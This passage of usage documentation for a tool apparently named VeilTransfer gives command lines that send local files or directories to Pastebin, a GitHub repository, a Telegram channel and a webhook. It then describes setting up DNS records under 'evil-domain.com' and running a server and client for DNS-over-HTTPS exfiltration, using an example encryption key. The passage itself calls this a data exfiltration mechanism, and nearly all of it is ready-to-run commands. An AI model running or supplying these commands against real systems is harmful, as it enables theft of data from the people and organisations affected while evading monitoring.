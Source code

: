 #### Upload a File to Pastebin
This example demonstrates how to upload the contents of a file to Pastebin. The content is posted to Pastebin using an API key provided by the user.
```bash
veiltransfer_client transfer pastebin -localPath (/path/to/file or /path/to/directory) -apiKey your_pastebin_api_key
```

#### Send a File to a GitHub Repository
This example shows how to push a file from the local machine to a specific GitHub repository. The file is added to the repository using the user's GitHub API token for authentication.
```bash
veiltransfer_client transfer github -localPath (/path/to/file or /path/to/directory) -repo yourusername/repository -apiKey your_github_api_token
```

#### Send a File to a Telegram Channel
This example demonstrates how to send a file to a specific Telegram channel. The file is sent using a Telegram bot API token, and the message is delivered to the specified channel ID.
```bash
veiltransfer_client transfer telegram -localPath (/path/to/file or /path/to/directory) -telegramAPI your_telegram_bot_api_token -channelID 123456789
```

#### Send Data to a Webhook URL
In this example, the contents of a file are sent to a specified Webhook URL.
```bash
veiltransfer_client transfer webhook -localPath (/path/to/file or /path/to/directory) -webhookURL https://webhook.site/your-webhook-url
```

#### Transfer Files via DoH (DNS over HTTPS)

To establish a secure data exfiltration mechanism utilizing DNS over HTTPS (DoH), the following DNS records must be configured:

1. A Record: Point test to the IP address <VeilTransfer_IP_Address>.

   test -> <VeilTransfer_IP_Address>

2. NS Record: Define a subdomain (exfil) that is managed by evil-domain.com.

   exfil -> test.evil-domain.com

The domain exfil.evil-domain.com will serve as the DNS Exfil domain.

Then, start the VeilTransfer Server in DoH mode with the following command:
```bash
./veiltransfer_server doh -key ag36rjsg284nfk2g -folder /root/data/exfil
```
Note: The encryption key (-key) must be 16 or 32 characters long.

To upload files via DoH, ensure that the VeilTransfer Server is actively running in DoH mode with a valid encryption key. Then, initiate the transfer using the client command:
```bash
veiltransfer_client transfer doh -localPath /path/to/file_or_directory -key ag36rjsg284nfk2g -dnsServer exfil.evil-domain.com
```
